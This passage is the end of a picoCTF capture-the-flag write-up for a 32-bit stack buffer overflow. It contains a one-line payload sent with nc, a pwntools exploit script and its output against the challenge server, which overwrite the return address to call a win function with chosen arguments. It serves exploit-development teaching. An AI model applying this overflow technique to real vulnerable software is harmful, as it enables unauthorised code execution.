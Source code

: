 ```bash
```

The exploit works successfully!

The challenge is completed by sending the payload to the remote process.

```bash
$ # Save the payload to a file
$ python3 -c 'import sys; sys.stdout.buffer.write(b"A"*0x6c+b"B"*0x4+b"\x96\x92\x04\x08"+b"\x90"*0x4+b"\x0d\xf0\xfe\xca"+b"\x0d\xf0\x0d\xf0")' > payload
$ (cat payload; cat) | nc saturn.picoctf.net 57392  # Sending the payload to remote process
Please enter your string: 

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
picoCTF{XXXXXXXXX_X_XXXX_XXXXXXXX}
```

### Exploit script

```python
#!/usr/bin/env python3

from pwn import remote, flat

REMOTE, PORT = 'saturn.picoctf.net', 57392

def exploit():
    io=remote(REMOTE,PORT)
    print(io.recvline())
    
    # Payload crafting
    padding=b"A"*0x6c + b"B"*0x4        # buffer + saved+ebp    @vuln
    win=0x08049296                      # win address
    fake_ret=b"fake"                    # fake return address   @win 
    args_1=0xcafef00d                   # args_1
    args_2=0xf00df00d                   # args_2

    payload=flat([padding, win, fake_ret, args_1, args_2])
    io.sendline(payload)
    print(io.recvline())
    print(io.recvall())

if __name__=="__main__":
    exploit()
```

```bash
$ chmod u+x exploit
$ ./exploit 
[+] Opening connection to saturn.picoctf.net on port 57392: Done
b'Please enter your string: \n'
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB\x96\x92\x04\x08fake\r\xf0\xfe\xca\r\xf0\r\xf0\n'
[+] Receiving all data: Done (34B)
[*] Closed connection to saturn.picoctf.net port 57392
b'picoCTF{XXXXXXXXX_X_XXXX_XXXXXXXX}'
```